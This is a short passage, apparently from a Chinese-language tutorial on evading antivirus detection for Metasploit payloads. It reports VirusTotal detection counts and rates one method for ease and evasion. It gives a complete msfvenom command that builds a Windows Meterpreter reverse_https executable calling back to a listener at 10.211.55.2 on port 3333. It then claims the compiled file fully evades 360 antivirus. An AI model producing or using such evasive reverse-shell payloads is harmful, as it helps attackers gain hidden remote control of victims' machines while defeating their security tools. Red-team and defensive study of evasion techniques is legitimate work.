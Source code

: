 操作略微复杂，详细过程可以参看[https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg](https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg)。

最终生成的payloaf在virustotal.com中33/70个报毒

![47244d66539c6e7aff58b7a3a96a13a4](images/2020.02-bypass-01/10.png)

## 7.8 使用reverse_https(VT免杀率29/70)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg](https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg)

主要是参考`Green_m`的文章:`https://www.freebuf.com/sectool/118714.html`，可以一定程度的避开杀软的流量检测。

使用msfvenom生成payload

```
msfvenom -p  windows/meterpreter/reverse_https  lhost=10.211.55.2  lport=3333  -f exe -o payload1.exe
```

在VC中编译后执行，360全免杀

